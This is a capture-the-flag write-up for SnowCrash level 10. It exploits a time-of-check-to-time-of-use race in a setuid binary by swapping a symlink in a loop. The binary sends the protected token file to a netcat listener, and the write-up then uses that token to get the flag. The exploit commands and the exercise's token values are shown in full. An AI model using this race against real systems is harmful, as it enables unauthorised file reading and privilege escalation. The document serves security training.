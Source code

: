 # Level 10

## Vulnerability
Privilege escalation - symlink

Access call

## Context
```
level10@SnowCrash:~$ ls -l
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```
```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```

## Solution

Can we find a host port hint in the binary?
```
level10@SnowCrash:~$ strings level10
...
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
...
```
In a second terminal lets use Netcat to listen on this port.
```
level10@SnowCrash:~$ nc 6969 -l
```
Back in the first terminal, if we create a file and send it to ourselves, it arrives in the second terminal.
```
level10@SnowCrash:~$ echo "oh hi" > /dev/shm/hi
level10@SnowCrash:~$ ./level10 /dev/shm/hi {VM_IP}
Connecting to {VM_IP}:6969 .. Connected!
Sending file .. wrote file!
```
To access the token, we find a potential weakness in the binary's use of ```access```.
```
level10@SnowCrash:~$ nm -u level10
...
         U access@@GLIBC_2.0
...
```
```man 2 access``` briefly describes [the vulnerability](https://stackoverflow.com/questions/7925177/access-security-hole)

> Warning:  Using  access()  to  check if a user is authorized to, for example, open a file
       before actually doing so using open(2) creates a security hole, because  the  user  might
       exploit  the  short time interval between checking and opening the file to manipulate it.

So lets create an infinite loop which switches a symbolic link between the binary and the token.
```
level10@SnowCrash:~$ while true; do ln -fs ~/level10 /tmp/symlink; ln -fs ~/token /tmp/symlink; done
```
Then run the binary on the symbolic link.
```
level10@SnowCrash:~$ while true; do ./level10 /tmp/symlink {VM_IP}; done
```
Then when we listen, sometimes its garbage, but sometimes we read the token!
```
level10@SnowCrash:~$ nc 6969 -l
woupa2yuojeeaaed06riuj63c
```
Great!
```
level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
